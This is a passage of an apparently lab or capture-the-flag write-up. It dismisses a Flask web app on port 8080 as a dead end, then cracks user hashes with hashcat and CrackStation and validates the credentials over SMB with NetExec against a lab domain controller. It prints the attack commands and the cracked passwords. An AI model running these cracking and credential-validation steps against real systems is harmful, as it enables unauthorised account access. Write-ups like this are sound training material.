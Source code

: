 ### Web Application on Port 8080 (Dead End)

The service on port 8080 exposed a Flask-based web application with a login form and an accessible `/admin` panel.  
The application used signed session cookies.

- The cookie secret was tested with `flask-unsign`.
    
- Cookie manipulation and injection attempts were made against the admin panel.
    
- These tests did not yield valid access.
    

This confirmed that the web application was a rabbit hole, and the exploitation chain continued entirely through Active Directory services
--- 

## Credential Validation & Foothold

The MD5 hash for user `r.widdleton` was cracked using hashcat:

```bash
hashcat -m 0 -a 0 r.widdleton.hash /usr/share/wordlists/rockyou.txt
```

Result
```bash
r.widdleton : <cracked password>
```

The password hash for  t.ren ``` was cracked using CrackStation:

Result
```bash
t.ren : <cracked password> 
```

## Credential Validation with NetExec

The cracked credentials were tested against SMB to confirm validity.

#### SMB Authentication
```bash 
netexec smb 10.0.16.170 -u r.widdleton -p 'lilronron'
 
SMB  10.0.16.170 445 DC01  [+] BUILDINGMAGIC.LOCAL\r.widdleton:lilronron
```

The account `r.widdleton` successfully authenticated as a domain user.

```bash 
netexec smb 10.0.16.170 -u t.ren -p 'shadowhex7'

Result
SMB  10.0.16.170 445 DC01  [-] BUILDINGMAGIC.LOCAL\t.ren:shadowhex7 STATUS_LOGON_FAILURE
```

The account `t.ren` failed authentication.

--- 